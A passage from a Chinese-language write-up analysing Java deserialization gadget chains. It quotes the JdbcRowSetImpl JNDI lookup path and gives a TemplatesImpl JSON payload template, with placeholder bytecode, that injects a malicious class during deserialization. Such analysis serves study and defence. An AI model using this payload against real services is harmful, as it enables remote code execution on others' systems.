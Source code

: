 继续跟进connect函数

```java
protected Connection connect() throws SQLException {
    if (this.conn != null) {
        return this.conn;
    } else if (this.getDataSourceName() != null) {
        try {
            InitialContext var1 = new InitialContext();
            DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
            return this.getUsername() != null && !this.getUsername().equals("") ? var2.getConnection(this.getUsername(), this.getPassword()) : var2.getConnection();
        } catch (NamingException var3) {
            throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
        }
    } else {
        return this.getUrl() != null ? DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()) : null;
    }
}
```

可以看到当conn为null时会发起JNDI查询从而加载我们的恶意类,这条利用链也是很简单的一条利用链，其缺陷也很明显，在jdk版本1.8时无法直接使用。

## TemplatesImpl

payload如下:

```json
{    "@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes":["base64编码后的继承于AbstractTranslet类的子类的class文件"],
    '_name':'a.b',
    '_tfactory':{ },
    "_outputProperties":{ },
    "_version":"1.0",
    "allowedProtocols":"all"
}
```

由于 `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl` 类的outputProperties属性类型为Properties因此在反序列化过程中会调用该类的getOutputProperties方法。
 

```java
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties();
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```
